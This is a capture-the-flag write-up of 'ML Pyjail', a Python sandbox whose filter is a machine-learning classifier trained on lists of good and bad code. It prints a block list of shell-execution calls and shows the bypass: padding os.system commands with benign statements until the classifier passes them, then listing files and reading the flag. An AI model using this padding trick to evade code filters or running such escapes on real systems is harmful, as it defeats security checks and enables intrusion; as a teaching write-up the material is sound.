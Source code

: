 ```yaml
---
layout: post
date: 2023-09-12 18:00:00 +0200
title: "ML Pyjail"
excerpt_separator: <!--more-->
---
```


A classic py jail using machine learning for it's filter.

<!--more-->

## Experimentation

We started by having a look at the service:

```
>>> print("Hello, World!")
Hello, World!

>>> import os
Bad Code Detected ...
```

## Code

Having a quick look at the code, we realize that the filter being used is a machine learning model.

Let's have a look at the training data.

Extract from `\tags\good_code.txt`:

```
print('Hello, World!')
x = 5; y = 10; print(x + y)
numbers = [1, 2, 3, 4, 5]; print(sum(numbers))
print(''.join(['Hello', ' ', 'World!']))
print('The answer is', 42)
print('Even' if x % 2 == 0 else 'Odd')
names = ['Alice', 'Bob', 'Charlie']; print(', '.join(names))
import math; print(math.sqrt(16))
```

Extract from `\tags\bad_code.txt`:

```
os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls")
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
```

## Attack

We can convince the model that code is good by feeding it a lot of _"good"_ training data with malicious code at the end.

Let's try this again:

```
>>> print('Hello, World!'); x = 5; y = 10; print(x + y); numbers = [1, 2, 3, 4, 5]; print(sum(numbers)); import os
Hello, World!
15
15

>>> print('Hello, World!'); x = 5; y = 10; print(x + y); numbers = [1, 2, 3, 4, 5]; print(sum(numbers)); os.system("ls")
Dockerfile
MLjail
ReadME.md
docker-compose.yml
entrypoint.sh
Hello, World!
15
15
```

This worked ! All that we need to do is read the flag

```
>>> print('Hello, World!'); x = 5; y = 10; print(x + y); numbers = [1, 2, 3, 4, 5]; print(sum(numbers)); os.system("cat MLjail/flag.txt")
PCTF{M@chin3_1earning_d0_be_tR@nsformati0na1_1818726356}Hello, World!
15
15
```

## Flag

`PCTF{M@chin3_1earning_d0_be_tR@nsformati0na1_1818726356}`
